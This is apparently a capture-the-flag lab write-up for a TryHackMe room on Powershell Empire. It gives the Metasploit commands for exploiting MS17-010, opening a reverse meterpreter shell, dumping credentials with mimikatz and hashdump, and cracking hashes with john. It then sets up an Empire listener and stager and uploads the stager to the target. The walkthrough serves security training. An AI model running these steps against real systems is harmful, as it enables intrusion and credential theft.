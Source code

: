 Website [URL](https://tryhackme.com/room/rppsempire)

Powershell Empire? This is a command and control server

# Enum
want to use `msfconsole` for this whole thing

lets begin by starting the database
```bash
sudo msfdb init
msfconsole -q
```

next we will do an nmap scan
```bash
db_nmap -A --script vuln -vv -oA Empire 10.10.159.89
```

now that we have data inside our database we can check the open ports and services on the host. as well as vulnerabilities. 445 is open
```bash
services
hosts
vulns
```

based on the nmap script, this is vulnerable to MS17-010. lets run a checker
```bash
search ms17-010
use 3
options
set rhosts 10.10.159.89
exploit
```

looks like it is so lets use the proper payload now
```bash
search ms17-010
use 0
options
set rhosts 10.10.159.89
set lhost tun0
exploit
```

we get a reverse meterpreter shell since we didnt change the payload. we can do a couple of things here
```bash
getuid
sysinfo
load kiwi #loads mimikatz
creds_all #dumps creds
hashdump  #dumps hashes
```

we can crack the password
```bash
john empire.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

lets now use Powershell Empire as intended. we can get it from [here](https://github.com/BC-SECURITY/Empire)
```bash
cd /opt
git clone https://github.com/BC-SECURITY/Empire
cd Empire
./setup/install.sh
```

lets also install the GUI version called [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)
```bash
chmod +x starkiller.AppImage
```

now lets start both Empire and Starkiller
```bash
./ps-empire server
./starkiller.AppImage
URL: localhost:1337
User: empireadmin
Pass: password123
```

in Starkiller, lets create a listener
+ create listener
+ type: http
+ host: myMachineIP
+ port: myMachinePort

lets also create a stager
+ create stager
+ type: windows/launcher_bat
+ listener: oneMadeFromAbove

once that was created i downloaded the stager and uploaded to the remote machine using meterpreter
```bash
upload ~/Documents/launcher.bat
```

we could have also used `wget` or `curl` or a different route to get the batch file into the remote machine